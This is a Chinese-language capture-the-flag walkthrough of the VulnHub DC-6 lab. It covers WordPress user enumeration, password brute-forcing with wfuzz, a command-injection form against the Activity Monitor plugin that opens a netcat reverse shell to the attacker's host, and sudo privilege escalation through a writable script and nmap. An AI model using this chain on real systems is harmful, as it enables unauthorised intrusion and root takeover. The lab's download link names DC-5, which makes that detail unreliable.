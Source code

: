 # DC: 6

下载地址：https://download.vulnhub.com/dc/DC-5.zip

## 实战演练

靶场IP地址:`192.168.32.165`

![image-20220713112654290](../../.gitbook/assets/image-20220713112654290.png)

扫描对外开放端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.165                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 23:27 EDT
Nmap scan report for 192.168.32.165
Host is up (0.00089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:59:92:D3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.89 seconds

```

访问80端口会跳转到wordy域名,需要配置本地hosts

```
192.168.32.165 wordy
```

![image-20220713112942673](../../.gitbook/assets/image-20220713112942673.png)

发现web框架是wordpress

![image-20220713113128077](../../.gitbook/assets/image-20220713113128077.png)

使用wpscan寻找用户

```
wpscan --url http://wordy -eu

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

盒子 DCAU 的作者在[网站](https://www.vulnhub.com/entry/dc-6,315/)上给出了线索。![线索](../../.gitbook/assets/clue.png)让我们用它来生成密码文件。

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt 
```

```
┌──(root💀kali)-[~/Desktop]
└─# wfuzz -c --hc=200 -z file,user.txt -z file,passwords.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://wordy/wp-login.php 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://wordy/wp-login.php
Total requests: 13340

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009879:   302        0 L      0 W        0 Ch        "mark - helpdesk01"   

```

太好了，我们得到了用户的密码`mark`。

```
username : mark passworc : helpdesk01 
```

使用此密码访问 wordpress。

![image-20220713122141709](../../.gitbook/assets/image-20220713122141709.png)

开发wordpress插件,我们可以看到一个插件`Activity monitor`。

![image-20220713122212561](../../.gitbook/assets/image-20220713122212561.png)

这个插件有一个可利用的漏洞，你可以[在这里查看](https://www.exploit-db.com/exploits/45274)。该插件容易受到操作系统命令注入的影响。

我们必须修改我们的 POST 请求以使其工作。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc 192.168.32.130 9999 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

使用 .html 扩展名保存上述文件，并通过浏览器通过设置 python http 服务器导航到 html 文件。

![image-20220713122448614](../../.gitbook/assets/image-20220713122448614.png)

设置监听器并通过单击按钮我们得到外壳。

![image-20220713122505734](../../.gitbook/assets/image-20220713122505734.png)

在用户标记的主目录中，我发现`things-to-do.txt`. 该文件包含用户的密码`graham`。

```
cat things-to-do.txt 
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

![image-20220713122800450](../../.gitbook/assets/image-20220713122800450.png)

端口 22 对 ssh 开放，在这里我尝试使用凭据与 ssh 连接。然后查看 sudoers 列表，发现 graham`/home/jens/backups.sh`不用密码也可以作为 jens 运行。

```
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh

```

查看`backups.sh`文件内容和脚本权限

```
graham@dc-6:~$ cat /home/jens/backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$ ls -al /home/jens/backups.sh 
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 /home/jens/backups.sh

```

在脚本添加bash

```
echo '/bin/bash' >>  /home/jens/backups.sh
```

现在我们以牛仔裤的身份成功登录

```
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh 
tar: Removing leading `/' from member names
tar (child): backups.tar.gz: Cannot open: Permission denied
tar (child): Error is not recoverable: exiting now
tar: backups.tar.gz: Wrote only 4096 of 10240 bytes
tar: Child returned status 2
tar: Error is not recoverable: exiting now

```

我再次检查了 sudoers 列表，发现 jens 可以在`/usr/bin/nmap`没有密码的情况下以 root 身份运行。

```
jens@dc-6:/home/graham$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```



```
jens@dc-6:/home/graham$ TF=$(mktemp)
jens@dc-6:/home/graham$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:/home/graham$ sudo /usr/bin/nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2022-07-13 14:35 AEST
NSE: Warning: Loading '/tmp/tmp.WtGHsHUiPn' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# 

```

flag

![image-20230208134434441](../../.gitbook/assets/image-20230208134434441.png)

